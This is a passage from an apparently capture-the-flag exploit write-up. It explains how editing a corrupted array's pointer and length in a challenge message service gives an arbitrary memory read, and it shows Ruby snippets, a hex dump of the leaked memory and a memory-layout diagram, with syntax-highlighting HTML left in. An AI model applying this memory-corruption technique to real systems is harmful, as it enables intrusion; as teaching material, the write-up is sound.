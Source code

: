 What happens if I now edit the first array (the value here, 0xB7FFEC04, is a place where I happen know I'll find a static string in memory)?

```

edit(s, <span class="Constant">1</span>, <span class="Constant">3</span>, [<span class="Constant">0xB7FFEC04</span>, <span class="Constant">10</span>].pack(<span class="Special">"</span><span class="Constant">II</span><span class="Special">"</span>))
```

Then read the second?

```

<span class="Type">Hex</span>.print(get(s, <span class="Constant">0</span>))
```

It's going to dump out whatever happened to be in memory! It's truncated to the length I set (10 bytes) multiplied by the element size (and INT\_ARRAY has 4-byte elements) for a total length of 40 bytes:

```

<span class="lnr">1 </span><span class="Statement">Length:</span> <span class="Constant">0x8</span> (<span class="Constant">8</span>)
<span class="lnr">2 </span><span class="Constant">0000</span>  2F <span class="Constant">68</span> 6F 6D <span class="Constant">65</span> 2F <span class="Constant">67</span> <span class="Constant">69</span> <span class="Constant">74</span> <span class="Constant">73</span> 6D <span class="Constant">73</span> <span class="Constant">67</span> 2F 6D <span class="Constant">73</span>   <span class="Statement">/</span><span class="Constant">home</span><span class="Statement">/gi</span>tsmsg/ms
<span class="lnr">3 </span><span class="Constant">0010</span>  <span class="Constant">67</span> <span class="Constant">73</span> 2F <span class="Constant">25</span> <span class="Constant">73</span> 2F <span class="Constant">25</span> <span class="Constant">30</span> <span class="Constant">38</span> <span class="Constant">78</span> <span class="Constant">25</span> <span class="Constant">30</span> <span class="Constant">38</span> <span class="Constant">78</span> <span class="Constant">00</span> <span class="Constant">00</span>   gs/<span class="Identifier">%s</span>/%08x%08x..
<span class="lnr">4 </span><span class="Constant">0020</span>  <span class="Constant">55</span> 6E <span class="Constant">62</span> <span class="Constant">72</span> <span class="Constant">65</span> <span class="Constant">61</span> 6B <span class="Constant">61</span>                           Unbreaka
```

Going back to the memory layout we looked at before, we saw that the message-specific data (the pointer and the length) overwrote array1:

```

------------------------------------------------------------------------------------------------------
|  array1    |                    array2 metadata......                                              |
------------------------------------------------------------------------------------------------------
|AAAAAAAAAAAA\x19\x04\x00\x00\x01\x00\x00\x00<span style="font-weight: bold">\x48\x28\x00\xb8\x02\x00\x00\x00</span>AAAAAAAAAAAAAAAAAAAAA...|
------------------------------------------------------------------------------------------------------
```

